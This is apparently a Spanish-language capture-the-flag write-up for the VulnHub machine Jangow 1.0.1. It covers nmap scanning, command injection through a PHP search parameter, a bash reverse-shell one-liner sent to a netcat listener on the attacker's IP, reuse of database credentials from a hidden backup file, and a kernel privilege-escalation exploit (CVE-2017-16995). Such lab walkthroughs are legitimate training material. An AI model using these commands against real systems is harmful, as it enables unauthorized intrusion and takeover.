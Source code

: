 ```yaml
---
title: Jangow 1.0.1
date: 2024-07-24
categories: [WRITEUPS, VulnHub]
tags: []  # TAG names should always be lowercase
image: /assets/images/vulnhub/logo.png
---
```


Buenas, en esta máquina explotaremos un **RCE**, para la escalada de privilegios nos aprovecharemos de una mala versión del **Kernel** de **Linux**.

---


En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que realizaremos será un escaneo de puertos con *NMAP*, para comprobar cuales de ellos están abiertos.

```bash
nmap -p- --open -T5 192.168.1.154 -n -Pn -v
```

![picture](/assets/images/hackthebox/jangow1.png){: w="600" h="300" }

Vamos a lanzar otro escaneo a los puertos encontrados, pero esta vez, con los parámetros **-sV**, para comprobar las *versiones* de los servicios, y **-sC**, para lanzar una serie de *scripts* predeterminados de *NMAP* con los cuales podremos encontrar cosas interesantes, en el caso que las hubiera.

```bash
nmap -p21,80 -sV -sC 192.168.1.154 -v
```
Ha encontrado una ruta llamada **/site**.

![picture](/assets/images/hackthebox/jangow2.png){: w="600" h="300" }

Una vez dentro de **/site** vemos una página web.

![picture](/assets/images/hackthebox/jangow3.png)

---

## **Explotación**

Si clicamos dentro de la página web en el apartado de "**buscar**", no muestra contenido, pero en la URL nos aparece lo siguiente.

![picture](/assets/images/hackthebox/jangow4.png)

Al ser **"buscar"** un parámetro detras de un archivo **PHP**, y a continuación un signo "**=**", podríamos estar ante un **RCE** (*Remote Code Execution*), probamos a ejecutar comandos, y obtenemos resultado.

![picture](/assets/images/hackthebox/jangow5.png)

A continuación, la idea es obtener una **Reverse Shell**, que es la capacidad de poder obtener una **Shell** en nuestra máquina local y poder ejecutar comandos, para ello, nos pondremos en escucha por un puerto con un **Listener**.

```bash
nc -nlvp 443
```

Y enviaremos desde el navegador la **Reverse Shell**, añadiendo a la *URL* lo siguiente.

```bash
bash -c "bash -i >%26 /dev/tcp/'Nuestra IP'/443 0>%261"
```

Ejecutamos, y estamos dentro de la máquina.

![picture](/assets/images/hackthebox/jangow6.png){: w="600" h="300" }

----

## **Escalada de privilegios**

Buscando por la máquina encuentro en la ruta** /var/www/html** un archivo oculto llamado **.backup**, el cual contiene las *credenciales* de una base de datos de MySQL.

![picture](/assets/images/hackthebox/jangow7.png){: w="600" h="300" }

En la ruta */home* encontramos la carpeta personal del usuario **jangow01**, probamos a migrar a ese usuario con la contraseña encontrada y es correcta.

![picture](/assets/images/hackthebox/jangow8.png)

En la carpeta personal encontramos la primera **flag**.

![picture](/assets/images/hackthebox/jangow9.png)

Si mostramos la versión del **Kernel** de **Linux**, y buscamos en internet, encontramos la vulnerabilidad [**CVE-2017-16995**](https://www.exploit-db.com/exploits/45010) para poder escalar privilegios.

![picture](/assets/images/hackthebox/jangow10.png)

He intentado descargármela desde el servidor con **Wget**, pero no funciona, para poder cargarlo en el servidor, nos lo descargaremos en la máquina local y lo subiremos mediante **FTP**.

Para poder subirlo, nos tendremos que mover al directorio personal de **jangow01**, ya que el directorio establecido para **FTP** es */var/www* y no nos dejará subir nada ya que en este directorio no tenemos permisos.

![picture](/assets/images/hackthebox/jangow11.png){: w="650" h="350" }

Una vez subido comprobamos en que lenguaje de programación está escrito, y es en **C**, le cambio el nombre y lo compilamos.

![picture](/assets/images/hackthebox/jangow12.png)

Ejecutamos el *exploit*, escalamos privilegios, y podemos leer la segunda **flag**.

![picture](/assets/images/hackthebox/jangow13.png){: w="600" h="300" }


